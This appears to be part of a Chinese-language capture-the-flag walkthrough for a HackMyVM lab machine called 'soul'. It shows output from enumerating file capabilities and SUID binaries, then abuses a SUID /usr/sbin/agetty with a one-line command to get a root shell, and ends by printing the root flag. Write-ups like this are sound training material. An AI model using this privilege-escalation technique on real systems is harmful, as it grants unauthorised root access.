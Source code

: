```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
/usr/sbin/hping3 = cap_net_admin,cap_net_raw+eip
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/sbin/agetty
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

在其中，发现 `/usr/sbin/agetty` 具有 suid 权限，借此可以实现提权

## User - root

```bash
peter@soul:~$ /usr/sbin/agetty -o -p -l /bin/bash -a root tty

Debian GNU/Linux 10 soul tty

soul login: root (automatic login)

bash-5.0# whoami
root
```

### flag - root

```bash
bash-5.0# cat rootflag.txt
HMVohmygod
```
